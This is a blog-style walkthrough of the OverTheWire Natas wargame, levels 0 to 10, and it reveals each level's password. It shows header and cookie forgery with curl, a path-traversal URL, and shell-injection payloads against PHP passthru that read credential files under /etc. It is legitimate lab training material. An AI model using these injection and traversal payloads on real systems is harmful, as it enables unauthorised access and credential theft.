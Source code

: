 ```yaml
---
title: "Linux training with overthewire [Part 4/10: Natas 1-10]"
author: Florian Courgey
layout: post
categories:
  - opensource
  - linux
  - bash
  - shell
  - hack
  - server
---
```

Excerpt here...
<!--more-->

This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training-overthewire-bandit-1 %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-overthewire-bandit-2 %})
- [Linux training with overthewire Part 3: Bandit 21-30]({% post_url 2018-11-30-linux-training-overthewire-bandit-3 %})
- Linux training with overthewire Part 4: Natas
- [Linux training with overthewire Part 5: Natas 11-]({% post_url 2018-11-30-linux-training-overthewire-natas-2 %})
- [Linux training with overthewire Part 5: Leviathan]({% post_url 2018-11-30-linux-training-overthewire-leviathan %})

### Level 0 - View source
```
http://natas0.natas.labs.overthewire.org/ natas0 natas0
```
Right Click > View Source:

`<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->`

### Level 1 - Inspector
```
http://natas1.natas.labs.overthewire.org/ natas1 gtVrDuiDfck831PqWsLEZy5gyDz1clto
```
In Chrome, 2 options:
- view-source:http://natas1.natas.labs.overthewire.org/
- <kbd>Ctrl</kbd> <kbd>Shift</kbd> <kbd>J</kbd>

`<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->`

### Level 2 - Apache file listing
```
http://natas2.natas.labs.overthewire.org/ natas2 ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
```
http://natas2.natas.labs.overthewire.org/files/users.txt

`natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`

### Level 3 - robots.txt
```
http://natas3.natas.labs.overthewire.org/ natas3 sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```
- http://natas3.natas.labs.overthewire.org/robots.txt
```
User-agent: *
Disallow: /s3cr3t/
```
- http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

`natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`

### Level 4 - Modify HTTP headers
```
http://natas4.natas.labs.overthewire.org/ natas4 Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```
The idea is to modify the HTTP header `Referer`. 3 options:
- Use any HTTP Header browser extension ([for Firefox](https://addons.mozilla.org/en-US/firefox/search/?platform=windows&q=http%20header) and [for Chrome](https://chrome.google.com/webstore/search/http%20header))
- Get the browser application [RestClient]
- `curl` to edit the header:
```bash
curl 'http://natas4.natas.labs.overthewire.org' -H 'Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va' -H 'Referer: http://natas5.natas.labs.overthewire.org/'
```
> bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va is the result of base64(natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ)

`Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

### Level 5 - Modify cookies
```
http://natas5.natas.labs.overthewire.org/ natas5 iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
Same here, the HTTP response sets a Cookie: `Set-Cookie: loggedin=0`.

2 options:
- Download an extension
- `curl`
```bash
curl 'http://natas5.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx' -H 'Cookie: __cfduid=d367f554011c7c1ab2210015e9dc5ac931544566497; loggedin=1'
```
`Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

### Level 6 - PHP include exploit 1
```
http://natas6.natas.labs.overthewire.org/ natas6 aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```
The source includes another file:
```php
include "includes/secret.inc";
```
Open http://natas6.natas.labs.overthewire.org/includes/secret.inc
```php
$secret = "FOEIUWGHFEEUHOFUOIU";
```
Input it in the form and submit:
`Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

### Level 7 - PHP include exploit 2
```
http://natas7.natas.labs.overthewire.org/ natas7 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```
Source:
```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```
Test:
`natas7.natas.labs.overthewire.org/index.php?page=..`
`include(/var/www/natas): failed to open stream`

Exploit:
`http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8`
`DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

### Level 8 - PHP basic 2-way encoding functions
```
http://natas8.natas.labs.overthewire.org/ natas8 DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```
The source shows `return bin2hex(strrev(base64_encode($secret)));`, let's reverse it:
```bash
$ php -r "echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362')));"
oubWYf2kBq
```
Input it in the form and here we are:
`Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`

### Level 9 - Shell injection
```
http://natas9.natas.labs.overthewire.org/ natas9 W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```
Source shows a variable from the POST being injected into the PHP `passthru` function ([see passthru on php.net](https://secure.php.net/manual/en/function.passthru.php)).
```php
$key = $_REQUEST["needle"]; // $key is coming from the form POST input
passthru("grep -i $key dictionary.txt"); // passthru executes a shell command on the server
```
Let's inject some basic code such as `;ls -alh;` so the executed code becomes
```bash
grep -i ;ls -alh; dictionary.txt
```

```terminal
Output:
total 480K
drwxr-x---  2 natas9 natas9 4.0K Dec 20  2016 .
drwxr-xr-x 41 root   root   4.0K Oct 29 04:27 ..
-rw-r-----  1 natas9 natas9  118 Dec 20  2016 .htaccess
-rw-r-----  1 natas9 natas9  126 Oct 20 09:08 .htpasswd
-rw-r-----  1 natas9 natas9 451K Dec 15  2016 dictionary.txt
-rw-r-----  1 natas9 natas9 2.0K Dec 20  2016 index-source.html
-rw-r-----  1 natas9 natas9 1.2K Dec 20  2016 index.php
-rw-r-----  1 natas9 natas9 1.2K Dec 15  2016 index.php.tmpl
```

We can run pretty much anything (such as the classic enumerations `;ls /home;`, `;ls ..;`, `;pwd;`, `;uname -a;`..) and find with `;id;` that the running user is `uid=30009(natas9)`.

Also, like in the [Bandit series]({% post_url 2018-11-30-linux-training-overthewire-bandit-1 %}), passwords might be in `/etc`:
```bash
$ ;ls -alh /etc;
d---------  2 root root   4.0K Oct 29 04:27 natas_pass # not readable
drwx------  2 root root   4.0K Oct 25 06:30 natas_session_toucher # not readable
drwxr-xr-x  2 root root   4.0K Oct 29 04:27 natas_webpass # readable by anyone!!
$ ;ls -alh /etc/natas_webpass;
-r--r-----  1 natas9  natas8    33 Dec 20  2016 natas9
-r--r-----  1 natas10 natas9    33 Dec 20  2016 natas10 # natas10 pwd is group-readable by natas9
$ ;cat /etc/natas_webpass/natas10;
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

References
- https://en.wikipedia.org/wiki/Code_injection#Shell_injection
- https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013)
- https://github.com/PortSwigger/command-injection-attacker

### Level 10 - Shell injection with forbidden characters
```
http://natas10.natas.labs.overthewire.org/ natas10 nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
Now characters `;` `|` and `&` are filtered via a regex. We need to get creative. `grep` can look into multiple files:
```bash
grep -i pattern file1 file2
# so as we have file=dictionary.txt:
grep -i $key dictionary.txt
# we can set $key to have to pattern="any letter" AND file1=/etc/natas_webpass/natas10
grep -i -e [a-z] /etc/natas_webpass/natas11 dictionary.txt # -e [a-z] is a regex matching any lowercase letter
```
So with the input `-e [a-z] /etc/natas_webpass/natas11` we get
```
Output:
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

> This method works also for the previous challenge


This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training-overthewire-bandit-1 %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-overthewire-bandit-2 %})
- [Linux training with overthewire Part 3: Bandit 21-30]({% post_url 2018-11-30-linux-training-overthewire-bandit-3 %})
- Linux training with overthewire Part 4: Natas 1-10
- [Linux training with overthewire Part 5: Natas 11-]({% post_url 2018-11-30-linux-training-overthewire-natas-2 %})
- [Linux training with overthewire Part 5: Leviathan]({% post_url 2018-11-30-linux-training-overthewire-leviathan %})
